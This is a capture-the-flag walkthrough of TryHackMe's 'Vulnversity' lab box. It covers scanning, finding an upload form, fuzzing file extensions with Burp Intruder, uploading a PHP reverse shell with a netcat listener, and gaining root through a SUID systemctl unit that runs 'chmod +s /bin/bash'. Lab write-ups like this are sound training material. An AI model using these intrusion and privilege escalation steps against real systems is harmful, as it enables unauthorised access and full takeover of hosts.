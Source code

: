 # Vulnversity - solution
- Link: https://tryhackme.com/room/vulnversity
- Difficulty: `easy`

## Host recognition
- `cd nmap`
-  `nmap --open <IP> -oG scan`
 -  `extractPorts scan` (custom command) to copy open ports
- `nmap -sCV -p21,22,139,445,3128,3333 <IP> -oN ports`

## Port 3333 (Apache http) - website recognition
- `gobuster dir -u http://<IP>:3333 -w /usr/share/wordlists/dirb/common.txt -o hidden_dir` to discover hidden directories
- Found `/internal`
- Found an input form on `http://<IP>:3333/internal`
- Tried to brute force that form with any possible file extension
- On browser:
  - Added FoxyProxy extension (`127.0.0.1:8080` as proxy)
- On Burpsuite:
  - `Proxy` -> `Intercept on`
- On browser:
  - Started FoxyProxy 
  - Uploaded a random file on the `http://<IP>:3333/internal` input form
- On Burpsuite:
  - Sent to Intruder the error message 
  - On `Intruder` window:
    - Removed all the `$` characters and added them only between `.png` (uploaded a .png file in my case)
  - On `Payload` window:
    - `Load` -> `/usr/share/seclists/Discovery/Web-Content/raft-small-extensions-lowercase.txt`
    - Unchecked `URL-encode these characters` option
    - Started the attack
    - Found `.phtml` as extension with a different response lenght, so I could exploit this vulnerability uploading a `.phtml` file 

## Exploitation
- Downloaded `https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php` 
- Set my own IP and a random port in that code
- Uploaded the file
- `nc -lvnp <port>` to make NetCat listen on the specified port
- Visited `http://<IP>:3333/internal/upload` and run the uploaded file (this hidden subdirectory should appear if we run `gobuster dir -u http://<IP>:3333/internal -w /usr/share/wordlists/dirb/common.txt -o hidden_dir`)
- Inside the reverse shell:
  - `ls`
  - `cd /home/bill`
  - `cat user.txt`
    - Found the `USER FLAG`
  
## Privileges escalation
- Inside the reverse shell:
  - Cannot access `/root`, so:
  - `find / -perm -4000 2>/dev/null` to find binaries 
  - `sudo -l` to discover which binary the active user may run as superuser
  - Found `systemctl`
- Checked it on https://gtfobins.github.io and found how to exploit the binary
- On another window, modified:
```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
```
to
```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```
- Inside the reverse shell:
  - Pasted that modified code
  - Became root
  - `cd /root`
  - `cat root.txt`
    - Found the `ROOT FLAG`
